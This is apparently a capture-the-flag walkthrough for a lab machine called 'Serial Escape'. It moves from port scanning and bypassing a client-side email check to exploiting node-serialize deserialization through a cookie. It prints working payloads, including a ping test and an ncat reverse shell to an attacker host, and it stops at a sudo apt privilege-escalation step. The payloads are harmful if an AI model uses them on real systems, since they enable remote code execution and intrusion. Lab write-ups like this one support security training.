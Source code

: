 # Serial Escape

To start with you can run a simple NMAP scan against the target.
```
nmap -sV -v <target IP>
```
![image](./images/2024-09-25_17h30_17.png)

Based on the NMAP results, there are two open ports: SSH (22) and HTTP (80).
If you navigate to the target IP address on a browser you will see a page as follows.

![image](./images/2024-09-25_17h30_48.png)

Based on the error message, you can understand that the base URL "/" requires authentication to visit.

To discover directories on the web application, you can use a directory brute-forcing tool like FFUF. This revealed an additional directory named 'dev', which also requires authentication.

![image](./images/2024-09-25_17h29_25.png)

When you navigate to the registration page to create a new user, you will see that the form requires you to enter an email address ending with "@oracle.az" only.

![image](./images/2024-09-25_17h31_16.png)

Upon registering, the application sends an OTP code to the provided email for verification, ensuring that users cannot create accounts with fake email addresses. However, after further inspection, you can notice that the email validation (checking if it ends with '@oracle.az') is only performed on the client side.

![image](./images/2024-09-25_18h56_23.png)

So, you can fill out the registration form with dummy inputs, capture the network traffic with Burp Suite, and replace the email address with one of your choice (either an email you own or a temporary/disposable email) to receive the OTP code and pass verification.
For demonstration purposes, a temporary email was used.
https://temp-mail.org/

![image](./images/2024-09-25_17h36_49.png)

Once you have placed a valid email address you can forward the traffic, which will send an OTP to the provided address.

![image](./images/2024-09-25_17h38_46.png)

To complete the registration process, enter the OTP code and submit.

![image](./images/2024-09-25_17h39_16.png)
![image](./images/2024-09-25_17h39_31.png)

As a result, you will be redirected to the login page with a success message indicating that you have successfully created a new user.
Having a user on the web application you can log in now. On the home page, you will see the first flag for the CTF.

![image](./images/2024-09-25_17h39_50.png)

Since you now have a valid user, you can visit the "dev" directory discovered earlier while directory brute-forcing with FFUF.
On the "dev" directory you will see two files: notes.txt and source.zip

![image](./images/2024-09-25_17h41_34.png)

The notes.txt file contains a message titled 'Security Alert,' highlighting a critical vulnerability in the application originating from a package called ```node-serialize```.
According to this message, you can understand that your next step will be downloading the source code of the web app (```/dev/source.zip```) and analyzing it to move the attack further. 

![image](./images/2024-09-25_17h41_42.png)

To begin your code review, start with the ```app.js``` file. In the ```app.js``` file, you'll also notice a warning comment regarding the ```node-serialize``` package.

![image](./images/2024-09-25_17h43_07.png)

To identify what the node-serialize package is vulnerable to, you can search online. You'll discover that it has a critical vulnerability: arbitrary remote code execution, which is explained in the following link. This vulnerability specifically affects the ```unserialize``` function, according to the explanation.
https://security.snyk.io/vuln/npm:node-serialize:20170208

Knowing that the web application is vulnerable to remote code execution, you can examine the source code further to find out where and how the ```node-serialize``` package is used. By searching in the ```app.js``` file, you'll find that the vulnerable package is passed to the ```home``` router after being imported.

![image](./images/2024-09-25_17h45_54.png)

To understand how and for what functionality of the web application the ```node-serialize``` package is used, open the JavaScript file responsible for the home page.
Upon reviewing the code, two key points emerge:
* When a user searches for a keyword, it is taken from the request, serialized, and stored in a cookie named ```last_search```.
* During each GET request to the home page, the value of the ```last_search``` cookie is retrieved, **_UNSERIALIZED_**. (which is the vulnerable part), and passed to the client side for display.

This functionality allows users to see their most recent search by storing its value in a cookie.

![image](./images/2024-09-25_17h54_27.png)

In the image below, you can see an example of the usage of this functionality.

![image](./images/2024-09-25_18h12_04.png)

As your next step, you have to craft such a payload that will execute system commands on the target website.
You can find an example payload from the link provided earlier.

```javascript
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

To adapt this payload for our target application, we need to remove the dictionary structure, enclosing double quotes, and any escaped characters, keeping only the core payload.

To test if the payload works, we can attempt to ping our attacking machine and verify whether the command executes. To detect the ping requests, start a ```tcpdump``` on the attacker machine to monitor ICMP traffic.

```javascript
_$$ND_FUNC$$_function (){require('child_process').exec('ping <attacker IP> -c 3', function(error, stdout, stderr) { console.log(stdout) });}()
```

Keep in mind that for successful code execution, the payload must first be sent to the web application. After that, you need to send another search keyword. This way, the payload becomes your previous search query and gets unserialized when accessing the home page. The vulnerability, as mentioned earlier, lies in the unserialize function of the package, not the serialize function.

Once the payload above is injected, you will observe six ICMP packets: three requests and three replies.

![image](./images/2024-09-25_18h22_19.png)

Confirming that the payload works, you can modify the payload to get a reverse shell.

```javascript
_$$ND_FUNC$$_function (){require('child_process').exec('ncat <attacker IP> <attacker Port> -e /bin/bash', function(error, stdout, stderr) { console.log(stdout) });}()
```

![image](./images/2024-09-25_18h24_52.png)

Upon injection of the payload above, you will get a reverse shell under the "www-data" user, which will enable you to grab the second flag for the CTF.

![image](./images/2024-09-25_18h35_11.png)

Moving on you can start looking around for a vulnerability/misconfiguration leading to privilege escalation.
As a result of executing  the ```sudo -l``` command, you can see that the www-data user is allowed to run the following command with ```sudo```privileges.

```
/usr/bin/apt edit-sources ../*
```

![image](./images/2024-09-25_18h30_58.png)
![image](./images/2024-09-25_18h33_34.png)
![image](./images/2024-09-25_18h34_12.png)

